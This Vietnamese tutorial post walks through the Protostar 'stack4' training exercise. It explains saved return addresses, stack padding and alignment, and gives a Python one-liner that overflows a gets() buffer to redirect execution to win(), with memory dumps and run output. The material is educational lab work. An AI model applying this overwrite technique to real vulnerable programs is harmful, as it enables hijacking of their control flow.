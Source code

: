 ```yaml
---
layout: post
title: stack4
---
```

Kỹ thuật trong bài trước giới thiệu cách tìm và gán địa chỉ hàm để gọi đến hàm đó.
Tuy nhiên, việc gọi hàm thành công là do trong source code đã có sẵn dòng lệnh với mục đích tương tự.
Trong bài này, chúng ta sẽ tìm hiểu cách thức gọi hàm hoàn toàn ngoài ý muốn của chương trình.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Có thể thấy bên trong hàm `main` chỉ gọi `gets` để lấy giá trị người dùng nhập vào và gán cho biến `buffer`.
Chương trình sẽ thoát ngay sau đó mà không có thêm lệnh nào khác.
Tuy nhiên, nếu nhìn vào asm code của chương trình như dưới đây, ta sẽ thấy có thêm 2 lệnh được chạy.
```asm
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
2 lệnh được nhắc đến là `leave` và `ret`, tương đương với `return` trong C.
Lưu ý rằng chạy một chương trình tương tự như việc gọi 1 hàm con.
Trước khi lệnh đầu tiên của hàm con được thực thi, CPU sẽ lưu lại địa chỉ của lệnh kế tiếp cần được thực hiện sau khi hàm con kết thúc.
Khi hàm con return về hàm đã gọi nó, địa chỉ này sẽ được `pop` vào `eip`, và lệnh tại đó được thực thi.
Ví dụ, hãy cùng xem stack ngay trước vào khi gọi hàm `gets` trong `main` của chương trình stack4.
Phân biệt theo màu: <span style="color:aqua">esp</span> và <span style="color:orangered">eip</span>.
<pre class="memory">
<span style="color:orangered">0x08048418</span> <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
...
0xbffff748:     0xb7fff8f8
0xbffff74c:     0xb7f0186e
<span style="color:aqua">0xbffff750</span>:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ngay sau khi lệnh `call` được thực thi.
<pre class="memory">
<span style="color:orangered">0x0804830c</span> <gets@plt+0>:        jmp    DWORD PTR ds:0x80495fc
...
0xbffff748:     0xb7fff8f8
<span style="color:aqua">0xbffff74c</span>:     0x0804841d
0xbffff750:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ở đây, lệnh cần được thực thi sau khi `gets` hoàn thành nằm ở địa chỉ `0x804841d`.
Do vậy lệnh này được `push` vào stack.

Khi áp dụng lý thuyết này vào trường hợp stack4 được gọi bởi hệ điều hành, ta biết được sẽ có 1 địa chỉ lệnh được lưu vào bộ nhớ để dùng sau khi stack4 kết thúc.
`ret` của stack4 sẽ pop giá trị địa chỉ này vào `eip` sau khi nó được thực thi.
Nếu biết vị trí lưu địa chỉ này, chúng ta có thể exploit chương trình bằng cách ghi đè địa chỉ khác lên nó và điều hướng cho chương trình thực thi lệnh lưu ở địa chỉ mới.
Các hacker sử dụng lý thuyết này để điều hướng và chạy đoạn mã độc của họ.

Callee và caller là thuật ngữ để chỉ một hàm (caller) gọi một hàm khác (callee).
Cần lưu ý thêm rằng ngoài địa của lệnh kế tiếp, `ebp` của caller cũng được lưu lại.
(nếu để ý đoạn code sẽ thấy lệnh `push ebp` là lệnh đầu tiên của main.)
Một vài calling convention quyết định bởi compiler, trong đó có ví dụ stack4 của bài viết này, sẽ lưu `eip`, tiếp theo là 4 byte `ebp` lên stack, và có thêm cả padding.
Callee sẽ có `ebp` chính là `esp` của caller.
Padding trong bài này có thể thấy qua lệnh `and esp,0xfffffff0`. Lệnh này sẽ biến thay đổi 4 bit nhỏ nhất trong giá trị `esp` về 0.
(kỹ thuật này còn được gọi là memory alignment, dùng để tối ưu và tăng tốc truy cập bộ nhớ.)
Như vậy padding sẽ có độ dài thông thường là 0, 4, 8, hoặc 12 byte.
Để ghi đè vào đúng địa chỉ mong muốn, ta sẽ cần quan tâm đến phần padding này.

Từ asm code của `main` (callee), ta thấy được `buffer` sẽ chiếm 64 byte bộ nhớ từ `esp + 0x10` đến `esp + 0x4f`.
Ngay sau `buffer`, bắt đầu từ `esp + 0x50` sẽ là phần bao gồm padding với độ dài không chắc chắn và theo sau với 4 byte `ebp` của caller trước khi chạm đến được địa chỉ `eip` của caller.
Như vậy, ta sẽ cần chuẩn bị giá trị tương đương khoảng 64 + 12 + 4 + 4 = 84 byte để làm tràn `buffer` và lưu địa chỉ mới cho `eip` của caller.
Sau đây là giá trị được dùng làm ví dụ, với địa chỉ của win là `0x080483f4`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">vùng padding, ebp, eip của caller</span>.

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048449</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048430</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804843b</span>      <span style="color:aqua">0xb7fd7ff4</span>
0xbffff7a0:     <span style="color:orangered">0x08048430</span>      <span style="color:orangered">0x00000000</span>      <span style="color:orangered">0xbffff828</span>      <span style="color:orangered">0xb7eadc76</span>
0xbffff7b0:     <span style="color:orangered">0x00000001</span>      0xbffff854      0xbffff85c      0xb7fe1848
</pre>
Sau khi gọi hàm `gets`:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
stack4 < input.txt
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>
0xbffff770:     <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>
0xbffff780:     <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>
0xbffff790:     <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>
0xbffff7a0:     <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>
0xbffff7b0:     <span style="color:orangered">0x080483f4</span>      0xbffff800      0xbffff85c      0xb7fe1848
</pre>

Lời giải này giả thiết chúng ta không biết về padding.
Trên thực ta, ta có thể dùng gdb để kiểm tra độ dài này.
Cụ thể, độ dài này sẽ nên là 8 byte thay vì 12 byte.
Để 12 byte sẽ khiến chương trình lưu thêm 1 lần địa chỉ của `win` vào phía sau, dẫn dến 2 lần thực thi hàm `win` này.
Bạn có thể xem kết quả chạy ở cuối bài viết.

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
code flow successfully changed
Segmentation fault
```

Lời giải phổ biến hơn với giả định padding thông thường dài 8 byte:
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 4" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
Segmentation fault
```
